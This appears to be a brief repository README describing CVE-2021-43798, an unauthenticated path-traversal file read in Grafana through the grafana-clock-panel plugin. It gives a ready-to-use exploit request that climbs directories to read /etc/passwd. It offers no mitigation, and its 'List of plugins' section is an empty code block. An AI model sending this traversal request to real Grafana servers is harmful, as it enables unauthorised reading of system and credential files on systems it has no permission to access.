 # Grafana

Grafana is the open source analytics & monitoring solution for every database.

## CVE-2021-43798 - Grafana-Unauth-File-Read

Unauthorized reading of files in Grafana (0day)

It looks like the new 0day LFI in Grafana exists thanks to the grafana-clock-panel plugin. It is enough to send a GET request of the form:

```GET /public/plugins/grafana-clock-panel/../../../../../../../etc/passwd```

# List of plugins

```

```
